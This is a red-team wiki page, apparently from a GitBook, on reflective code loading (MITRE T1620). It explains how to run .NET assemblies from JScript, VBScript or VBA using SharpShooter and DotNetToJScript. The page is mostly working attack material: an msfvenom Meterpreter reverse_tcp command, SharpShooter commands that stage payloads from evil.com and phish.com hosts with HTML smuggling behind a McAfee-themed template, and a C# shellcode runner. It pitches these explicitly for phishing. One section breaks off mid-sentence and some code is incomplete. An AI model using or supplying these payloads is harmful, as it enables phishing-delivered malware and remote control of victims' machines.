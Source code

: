 ```yaml
---
description: MITRE ATT&CK™ Reflective Code Loading - Technique T1620
---
```


# .NET Assembly from Windows Script Hosting

## Theory

You can load and execute .NET (C#) assemblies directly into memory from a compiled binary using Jscript, VBScript, or VBA Mcros, by using the DotNetToJScript technique from James Forshaw.

{% hint style="success" %}
As double-clicking  `.js` or .`vbs` or other script files on Windows will by default execute them through the [Windows-Based Script Host](../code-execution/wsh.md),  this technique can efficiently be used for phishing and even phishing with [HTML Smuggling](../../delivery/phishing/html-smuggling.md).
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) (Python) can be used to creat payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object.

SharpShooter supports both staged and stageless payload execution.&#x20;

* **Stagless payload** will embed the whole .NET in the generated file.
* **Staged payloads** will attempt to retrieve a CSharp source code file that has been zipped and then base64 encoded using the chosen delivery technique (DNS or HTTP).  The CSharp source code will be downloaded and compiled on the host using the .NET CodeDom compiler. Reflection is then subsequently used to execute the desired method from the source code. A summary of how SharpShooter operates during staging is shown in the diagram below:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p><a href="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/">https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/</a></p></figcaption></figure>

However for both types of payload, we should first generate a shellcode.&#x20;

```bash
# Generate a shellcode for stagless payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.121 LPORT=443 -f raw -o msf.raw

# Generate a shellcode for staged payloads
# The shellcode file should only contain the raw bytes, not the variable definition. For example byte[] buf = new byte[999] { 0x01, 0x02, 0x03 … would mean the shellcode file would contain just 0x01, 0x02, 0x03.
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp > /tmp/raw.cs; cat /tmp/raw.cs |sed 's/byte\[\] buf = new byte\[[0-9]\+\] {//g' |sed 's/};//g' > msf.raw
```

{% hint style="danger" %}
When generating HTA payloads, we should always use 32-bit shellcodes due to mshta.exe being a 32-bit binary.
{% endhint %}

#### Stagless Payloads

We can now generate stageless payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --stageless:  Entire generated payload will be transferred at once (no HTML smuggling)

# Embedding a .NET assembly in JScript
sharpshooter --payload js --dotnetver 4 --stageless --rawscfile msf.raw --output evil

# Embedding a .NET assembly in VBScript
sharpshooter --payload vbs --dotnetver 4 --stageless --rawscfile msf.raw --output evil
```

#### Stagled Payloads

We can generate stageled payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --com:        COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
# --delivery:   Delivery method for the stage: web, dns, both
# --web:        URI for web delivery
# --shellcode:  Use built in shellcode execution
# --template:   HTTP Template for the HTTP generated file (for delievry)
# --smuggle:    Smuggle payload into generated HTTP

# HTTP Smuggling Delivery + Staged Payload to retreive the .NET to execute (in JScript)
sharpshooter --payload js --dotnetver 2 --shellcode --scfile msf.raw --output evil --delivery web --web http://www.evil.com/evil.payload --smuggle --template mcafee
```

For previous example, SharpShooter will have created 3 separate files in the output directory, evil.html, evil.js and evil.payload.

* **evil.js:** JavaScript payload that the user will eventually execute. If you are using HTML smuggling, this file does not need to be sent to the user, it’s provided purely for information and debugging purposes.
* **evil.html:** is the HTML file that we will ultimately coerce the user in to opening by whatever means. This file contains the encrypted copy of evil.js which is decrypted using JavaScript then served to the user using the navigator.mssaveBlob technique.
* **evil.payload**: is the C Sharp source code that will be retrieved, compiled and executed on the target host. In this case, the file contains a harness that will execute the supplied shellcode. The source code file is zipped then base64 encoded. The file should be hosted at the URI `http://www.evil.com/evil.payload`&#x20;

Alternatively, we can retreive a custom .NET from our staged payload:

```bash
# Custom .NET inside VBS
sharpshooter --dotnetver 4 --payload vbs --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```
{% endtab %}

{% tab title="Windows" %}
[DotNetToJScript](https://github.com/tyranid/DotNetToJScript) is a tool created by James Forshaw that allows .NET (C#) assemblies to be executed within JavaScript or VBScript.

#### **Prepare the .NET Assembly**

First, you need to create or identify a **.NET assembly** (DLL or EXE) that contains the code you want to run. This assembly could perform any function, such as spawning a reverse shell, executing arbitrary code, or interacting with system resources.

In the example below, we create and compile our own C# code that can execute a supplied shellcode.

{% code title="evil.cs" %}
```csharp
// Compile this code as a DLL for x64 arch using Visual Studio 
using System;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class EvilLoader
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public EvilLoader()
    {
        //msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
        byte[] buf = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8......};

        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
    
    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
{% endcode %}

#### **Execute DotNetToJScript**

DotNetToJScript takes your compiled .NET assembly as input. The tool will embed this assembly into the output JScript or VBScript code.

{% hint style="info" %}
When using custom .NET assembly like in our example (i.e not the "ExampleAssembmy" provided code) we should specify the assembly class name and entry function.
{% endhint %}

```powershell
# -c:      Entry class name
# --lang:  Language to use (JScript, VBA, VBScript)
# --ver:   .NET version to use (None, v2, v4, Auto)

# Embedding a .NET assembly in JScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=Jscript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBScript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBA
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBA --ver=v4 -o evil.js
```

#### **Execute the Payload**

Generated JScript or VBScript payload can be executed by double-clicking it or using [Windows Script Host](../code-execution/wsh.md). Such


{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/" %}

{% embed url="https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-to-jscript" %}

{% embed url="https://www.ired.team/offensive-security/defense-evasion/executing-csharp-assemblies-from-jscript-and-wscript-with-dotnettojscript" %}

